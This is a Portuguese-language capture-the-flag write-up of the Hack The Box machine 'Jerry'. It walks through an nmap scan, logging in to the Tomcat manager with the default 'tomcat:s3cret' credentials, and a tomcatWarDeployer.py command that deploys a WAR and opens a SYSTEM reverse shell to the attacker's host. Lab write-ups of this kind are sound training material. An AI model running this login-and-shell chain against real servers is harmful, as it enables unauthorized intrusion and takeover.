 ```yaml
---
title:     "Hack The Box - Jerry"
tags: [windows,easy,tomcat,deploy,war]
categories: HackTheBox
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-jerry/1.jpg)

## Enumeration

Hehehe, olha eu aqui novamentee

Iniciando com o nmap

```
root@kali:~/HTB-Windows/jerry# nmap -sV -p- -A -sC -T4 -oA nmap/init 10.10.10.95
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-02 17:22 EDT
Nmap scan report for 10.10.10.95
Host is up (0.20s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows Vista (86%)
OS CPE: cpe:/o:microsoft:windows_vista::sp1:home_premium
Aggressive OS guesses: Microsoft Windows Vista Home Premium SP1 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   214.34 ms 10.10.14.1
2   205.73 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1125.18 seconds
```

## Find Exploit

Temos um  `Apache Tomcat/7.0.88` vamos explorar isso

## Exploitation

Navegando ate o tomcat na pagina inicial temos algumas opcoes uma delas eh o `Manager App` quando clicamos ele pede senha para autenticar na application..

Se voce por qualquer cred, ele da erro e mostra o login  default `tomcat:s3cret`, voce tbm poderia fazer bruteforce na tentativa de encontrar uma cred valida.

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-jerry/2.jpg)

Usando o password default rapidamente fazemos login e assim vamos explorar esse acesso e obter uma reverse shell

um pouco mais abaixo encontramos informacoes sobre o server rodando em backgroud

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-jerry/3.jpg)

## Privilege Escalation

***reference*** https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

## Usando tomcatWarDeployer.py

Usando o [tomcatWarDeployer.py](https://github.com/mgeeky/tomcatWarDeployer) conseguimos rapidamente obter uma reverse shell como SYSTEM

`python tomcatWarDeployer.py -U tomcat -P s3cret -H 10.10.14.37 -p 53 10.10.10.95:8080`

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-jerry/4.jpg)


## Mapa Mental

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-jerry/5.jpg)





